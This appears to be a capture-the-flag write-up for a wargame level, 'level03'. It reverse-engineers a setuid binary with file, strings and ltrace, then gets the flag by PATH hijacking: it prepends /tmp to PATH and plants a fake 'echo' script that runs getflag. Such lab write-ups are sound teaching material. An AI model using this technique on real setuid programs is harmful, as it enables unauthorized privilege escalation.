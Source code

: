 # level03

## level03 binary
Run the binary file "level03" and got taunted: "Exploit me".

## Reverse engineering
Try to know what's inside this "level03" file.  
Some tools:
- file  
A tool to get some basic information about a file.  
Run `file ./level03` and we will get:  
```
./level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```
It shows that level03 file is an "ELF 32-bit LSB exaeutable", also "not stripped".

- strings  
print the strings of printable characters in files.  
We can found system() function been called.  

- ltrace  
A library call tracer.  
Run `ltrace -i ./level03` and we can found this program calling "system()" function to launch "echo" whit the PATH stored in the "env".  

## Almost the same as "Nebula Challenge" level01
Exploit the system() call with env injection.  
1. Check the owner of the level03 file  
Make sure this file has a "higher" privilege then the user "level03".  
`ls -la ./level03` shows the owner as "flag03" who can launch "getflag" and actually get the flag.  
2. Inject a new PATH into the env.  
`export PATH=/tmp:$PATH` this adds "/tmp" path in front of other path so the programe inside "/tmp" will be called before other path (if that program exist).  
3. Create a fake "echo" program
`echo "getflag" > /tmp/echo`
4. Make it executable
`chmod +x /tmp/echo`

## Run ./level03 again and you've got flag

